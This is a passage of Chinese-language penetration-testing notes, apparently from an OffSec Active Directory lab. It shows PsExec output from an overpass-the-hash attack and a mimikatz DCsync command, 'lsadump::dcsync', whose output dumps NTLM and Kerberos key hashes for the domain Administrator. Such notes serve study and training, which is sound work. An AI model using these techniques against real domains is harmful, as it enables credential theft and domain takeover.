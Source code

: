 ```
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.1.1
...

C:\Windows\system32> whoami
corp\fakeuser
```

请注意，通过创建我们自己的 TGT 然后使用 PsExec，我们正在通过利用 Kerberos 身份验证来执行越过哈希攻击。如果我们使用 PsExec 连接到域控制器的 IP 地址而不是主机名，我们将强制使用 NTLM 身份验证，并且访问仍将被阻止，如下面的清单所示

```
C:\Users\Offsec.corp> psexec.exe \\192.168.1.110 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.1.110:
Access is denied.
```

## DCsync

前提：需要使用有DCsync权限的用户操作

> NTDS.dit数据库文件的副本，1它是存储在硬盘驱动器上的所有 Active Directory 帐户的副本，类似于用于本地帐户的 SAM 数据库

```
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'corp.com' will be the domain
[DC] 'DC01.corp.com' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

\*\* SAM ACCOUNT \*\*

SAM Username         : Administrator
User Principal Name  : Administrator@corp.com
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 05/02/2018 19.33.10
Object Security ID   : S-1-5-21-1602875587-2787523311-2599479668-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: e2b475c11da2a0748290d87aa966c327
  ntlm- 0: e2b475c11da2a0748290d87aa966c327
  lm  - 0: 913b84377b5cb6d210ca519826e7b5f5

Supplemental Credentials:
\* Primary:NTLM-Strong-NTOWF \*
  Random Value : f62e88f00dff79bc79f8bad31b3ffa7d

\* Primary:Kerberos-Newer-Keys \*
  Default Salt : CORP.COMAdministrator
  Default Iterations : 4096
  Credentials
  aes256_hmac (4096): 4c6300b908619dc7a0788da81ae5903c2c97c5160d0d9bed85cfd5af02dabf01
  aes128_hmac (4096): 85b66d5482fc19858dadd07f1d9b818a
  des_cbc_md5 (4096): 021c6df8bf07834a

\* Primary:Kerberos \*
```